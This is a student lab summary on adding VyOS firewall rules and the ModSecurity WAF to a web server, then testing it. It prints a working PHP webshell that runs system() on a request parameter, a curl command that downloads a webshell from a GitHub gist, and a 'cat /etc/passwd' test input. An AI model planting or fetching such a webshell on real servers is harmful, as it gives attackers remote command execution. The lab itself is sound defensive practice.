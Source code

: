 # Lab Summary

In This lab we added a web application firewall to web01 adn then we tested it

## Adding software to web01

Since updating web01 requires connecting the internet through WAN we have to add a couple firewall rules . One is a permanent rule and the other is temporary.

## WAN-to-DMZ

On fw01 there needs to be a permanent rule that allows connections back through WAN-to-DMZ firewall.

First we can check to see if the rule already exists with command below

`show firewall name WAN-to-DMZ`

If it doesnt exist we can add it by running the following commands 

`configure`

`set firewall name WAN-to-DMZ rule 1 action accept`

`set firewall name WAN-to-DMZ rule 1 state established`

`commit`

`save`

## DMZ-to-WAN

Since the permanent rule has been added we also have to add a temporary rule to allow traffic through (but only while we update) by running the commands below

`configure`

`set firewall name DMZ-to-WAN rule 999 action accept`

Now we need to set the source address to the web server by running the commands below

`set frewall name DMZ-to-WAN rule 999 source address 172.16.50.3`

`commit`

**One thing we can do is make sure that we dont save the rule since its only temporary. We can keep it committed until after we run the update and that way its just in memory and not persistent on the reboot**

## Adding and testing mod_security

To install the necessary services  such as mod_security and php to make a webshell work we must run the following command below

`sudo yum install mod_security mod_security_crs install php php-common php-opcache php-mcrypt php-cli php-gd php-curl php-mysqlnd -y`

Then we must restart  https to apply changes

`sudo systemctl restart httpd`

check to see if mod_security was installed 

`sudo httpd -M | grep security2`

We can also check by navigating as root to **/var/log**

and entering 

`cat error_log | grep ModSecurity`

## Testing ModSecurity

If we try to currently navigate to the webserver (in this case index.html) we will get a 403 forbidden  error.  We can test this by navigating to **/var/log** and enter the command below to check the error

`cat error_log | grep 960017`

Now we need to tell ModSecurity to  allow access to web01 via an IP address. This is done by editing the **/etc/httpd/conf.d/mod_security.conf** file. Rule 960017 is the associated rule that prevented access which was an error message shown above. Underneath

**Default recommended configuration**

**SecRuleEngine On**

We need to include 

`<locationmatch "/"`

   `SecRuleRemoveById 960017`

`</locationmatch>`

**SecRequestBodyAccess on**

Now we need to restart httpd again after saving the file we should be able to curl the webserver from the WAN on **rw01** by typing

`curl http://172.16.50.3`

and it should show your homepage message like **Welcome to web01**

Here is an HTML source code that Devin used for testing security logs

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

In order for this to be utilized in teh webserver, we can curl on the raw content from GitHub and have it name the .php file to "shell.php" with the command below

```curl https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php -o shell.php
```

Now we should be able to test remote code execution by typing

`http://[WEBSERVER_IP]/shell.php`

in the browser bar

If we enter **cat /etc/passwd**  we will get an error of 403 Forbidden

We can also use Wazuh and/or syslog on web01 by typing

`cat /etc/passwd` in to the input box to see the 403 error

# Problems

I had minor issues curling the raw content from github for the php file in the wrong folder so i just had to remove it and put it in the correct location of the html directory. Other than that I did not have too many issues with this lab.

